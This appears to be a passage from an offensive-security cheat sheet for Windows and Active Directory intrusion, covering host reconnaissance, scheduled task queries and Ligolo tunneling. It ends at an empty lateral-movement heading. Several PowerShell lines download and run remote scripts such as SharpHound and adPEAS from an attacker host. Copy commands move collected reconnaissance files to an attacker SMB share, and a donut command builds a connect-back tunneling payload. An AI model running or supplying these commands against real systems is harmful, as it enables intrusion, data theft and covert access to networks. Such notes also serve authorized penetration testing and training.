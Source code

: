 ### Host & AD Recon

```powershell
# Quick tree of user profiles
cmd /c "tree /A /F C:\Users"

# Seatbelt (full sweep)
.\Seatbelt.exe -group=all -outputfile="C:\windows\tasks\seatbelt.txt"

# Host recon
IEX(New-Object Net.WebClient).DownloadString("http://<ATTACKER_IP>/HostRecon.ps1")
Invoke-HostRecon | Out-File C:\windows\tasks\HostRecon.txt

# ADPEAS
IEX(New-Object Net.WebClient).DownloadString('http://<ATTACKER_IP>/adPEAS.ps1')
Invoke-adPEAS -Domain '<DOMAIN>' -Outputfile 'C:\windows\tasks\adPEAS.txt' -NoColor

# Move artifacts to SMB share
net use \\<ATTACKER_IP>\share /u:kali kali
copy C:\windows\tasks\*.zip \\<ATTACKER_IP>\share\temp\
copy C:\windows\tasks\*.txt \\<ATTACKER_IP>\share\temp\

# SharpHound (PowerShell variant)
IEX(New-Object Net.WebClient).DownloadString("http://<ATTACKER_IP>/SharpHound.ps1")
Invoke-BloodHound -CollectionMethod All -SearchForest
```

### Scheduled Tasks

```bash
schtasks /query /tn "mail" /fo LIST /v
```

### Tunneling (Ligolo)

```bash
# Start server
sudo ligolo-mp

# Generate agent payload
donut -f 1 -o agent.bin -a 2 -p "-connect <ATTACKER_IP>:11601 -ignore-cert" -i agent.exe

# PowerShell runner
# (host your ligolo-psrunner.ps1 and pull it at runtime)
IEX(iwr http://<ATTACKER_IP>/ligolo.ps1 -UseBasicParsing)
# Add routes & start relay as needed
```

---

## Lateral Movement & Remote Exec
